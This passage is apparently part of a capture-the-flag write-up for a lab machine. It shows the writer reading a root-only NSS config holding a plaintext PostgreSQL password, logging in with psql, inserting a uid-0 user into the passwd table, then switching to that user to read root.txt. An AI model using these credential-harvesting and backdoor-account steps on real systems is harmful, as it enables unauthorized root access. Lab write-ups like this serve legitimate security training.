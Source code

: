 

While `nss-pgsql.conf` has information I was already aware of, I'll find
a new user for the database, unixnssroot, in `nss-pgsql-root.conf`:



    ro0xdft@redcross:/etc$ cat nss-pgsql-root.conf 
    shadowconnectionstring = hostaddr=127.0.0.1 dbname=unix user=unixnssroot password=30jdsklj4d_3 connect_timeout=1
    shadowbyname = SELECT username, passwd, date_part('day',lastchange - '01/01/1970'), min, max, warn, inact, expire, flag FROM shadow_table WHERE username = $1 ORDER BY lastchange DESC LIMIT 1;
    shadow = SELECT username, passwd, date_part('day',lastchange - '01/01/1970'), min, max, warn, inact, expire, flag FROM shadow_table WHERE (username,lastchange) IN (SELECT username, MAX(lastchange) FROM shadow_table GROUP BY username);



#### Add root User

Now I can connect to the database using the unixnssroot user and
password from the config file:



    ro0xdft@redcross:/etc$ psql -h 127.0.0.1 -U unixnssroot -p 5432 -d unix
    Password for user unixnssroot: 
    psql (9.6.7)
    SSL connection (protocol: TLSv1.2, cipher: ECDHE-RSA-AES256-GCM-SHA384, bits: 256, compression: off)
    Type "help" for help.

    unix=>



This user can add a user with user id 0 (root):



    unix=> insert into passwd_table (username, passwd, uid, gid, homedir) values ('r0xdfot', '$1$wV7CPbj9$59kAklYgquXe5TuJYIT591', 0, 0, '/root');
    INSERT 0 1



Now I can exit `pgsql` and sudo into my new user:



    ro0xdft@redcross:/etc$ su r0xdfot
    Password: 
    r0xdfot@redcross:/etc# id
    uid=0(r0xdfot) gid=0(root) groups=0(root)



And read `root.txt`:



    r0xdfot@redcross:~# cat root.txt 
    892a1f4d...



